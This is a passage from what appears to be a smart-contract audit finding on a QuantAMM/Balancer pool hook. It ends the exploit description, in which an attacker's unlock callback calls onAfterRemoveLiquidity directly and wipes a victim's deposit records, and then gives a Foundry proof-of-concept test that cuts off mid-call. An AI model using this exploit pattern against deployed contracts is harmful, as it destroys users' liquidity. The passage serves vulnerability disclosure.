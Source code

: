 4. **Attacker Executes the Exploit**:
   * During the callback phase, the attacker's contract maliciously invokes the `onAfterRemoveLiquidity` function in `UpliftOnlyExample.sol`.

5. **Impact**:
   * As a result of the exploit:
     * **Bob's Balancer Pool Tokens (BPT)** or NFTs are all deleted.
     * Bob is left with **zero balance**, and his liquidity becomes irrecoverable.

PoC: Add this into <https://github.com/Cyfrin/2024-12-quantamm/blob/main/pkg/pool-hooks/test/foundry/UpliftExample.t.sol>

run: forge test --mt test\_Delete\_All\_User\_BPTs\_Share -vvv

```solidity
    uint256 bptAmountDeposit = 10_000e18;
    function test_Delete_All_User_BPTs_Share() public {
        uint256[] memory maxAmountsIn = [dai.balanceOf(bob), usdc.balanceOf(bob)].toMemoryArray();
        uint256[] memory minAmountsOut = [uint256(0), uint256(0)].toMemoryArray();

        LPNFT lpNft = upliftOnlyRouter.lpNFT();

        // Bob add liquidity 10_000e18 * 5
        vm.startPrank(bob);
            for(uint256 i; i < 5; i++) {
                upliftOnlyRouter.addLiquidityProportional(pool, maxAmountsIn, bptAmountDeposit, false, bytes(""));
                skip(1 days); 
            }
        vm.stopPrank();

        // check bob has deposited 5 times.
        UpliftOnlyExample.FeeData[] memory bobFeeData_BeforeAttack = upliftOnlyRouter.getUserPoolFeeData(pool, bob);
        require(bobFeeData_BeforeAttack.length == 5); 

        // This is attacker contract.
        bytes memory data = abi.encodeWithSignature("unlock(bytes)", abi.encodeWithSignature("attackerUnlockCallBack()"));
        (bool ok,) = address(vault).call(data); 
        require(ok, "CallBack Failed!"); 

        // Check that attacker deleted all Bob's FeeData array.
        UpliftOnlyExample.FeeData[] memory bobFeeData_AfterAttack = upliftOnlyRouter.getUserPoolFeeData(pool, bob);
        require(bobFeeData_AfterAttack.length == 0); 

        // check that removing liquidity will revert.
        vm.startPrank(bob);
            vm.expectRevert(
                abi.encodeWithSelector(UpliftOnlyExample.WithdrawalByNonOwner.selector, bob, pool, bptAmountDeposit)
            );

            upliftOnlyRouter.removeLiquidityProportional(bptAmountDeposit, minAmountsOut, false, pool);
        vm.stopPrank();
    }

    // This is call back function to be called from Vault::unlock. 
    function attackerUnlockCallBack() public {
        uint256[] memory minAmountsOut = [uint256(0), uint256(0)].toMemoryArray();

        // attacker calls onAfterRemoveLiquidity directly.
        // and passes Bob's address as target.
        upliftOnlyRouter.onAfterRemoveLiquidity(
```